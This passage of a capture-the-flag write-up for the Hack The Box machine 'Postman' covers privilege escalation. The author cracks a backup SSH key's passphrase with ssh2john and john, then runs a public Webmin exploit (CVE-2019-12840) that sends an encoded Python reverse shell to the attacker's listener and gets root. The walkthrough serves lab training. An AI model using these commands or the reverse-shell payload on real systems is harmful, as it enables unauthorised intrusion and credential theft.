 Enumerating the victim machine we found Matt ssh private key

```bash
[>] find / -type f -name *.bak -exec ls -l {} \; 2>/dev/null 
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak
```

But we need a passphrase. Lets try to crack it with ssh2john

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ ssh2john id_rsa.bak > matt_id_rsa_cracked

┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ john matt_id_rsa_cracked -w=/usr/share/wordlists/rockyou.txt 
[...SNIP...]
computer2008     (id_rsa.bak)    
```

And we got the credentials Matt:computer2008 . Trying to ssh with the key doesn't work but changing user from redis to Matt works perfectly

```bash
redis@Postman:~$ su Matt
Password: 
Matt@Postman:/var/lib/redis$ whoami
Matt
```

Trying the matt credentials in https://postman:10000/ works, so now we can execute the exploits we found at the enumeration phase

![[Pasted image 20231116214727.png]]

As I don't want to use metasploit (is not allowed in the OSCP exam) y open the **[exploit](https://www.exploit-db.com/exploits/46984)** copy the CVE code (CVE-2019-12840) and then I search the exploit by CVE in google. So we will use **[this exploit](https://github.com/KrE80r/webmin_cve-2019-12840_poc/blob/master/CVE-2019-12840.py)**

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Postman-10.10.10.160]
└─$ python3 CVE-2019-12840.py -U Matt -P computer2008 -u https://postman -p 10000 -lhost 10.10.14.7 -lport 9001

[...SNIP...]

[*] logging in ...
[+] got sid 51d7ff947d37435bed6251f03e22b174
[*] sending command python -c "import base64;exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjciLDkwMDEpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0p'))" 

-------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.160] 55346
/bin/sh: 0: cant access tty; job control turned off
# whoami
root
```

And we are root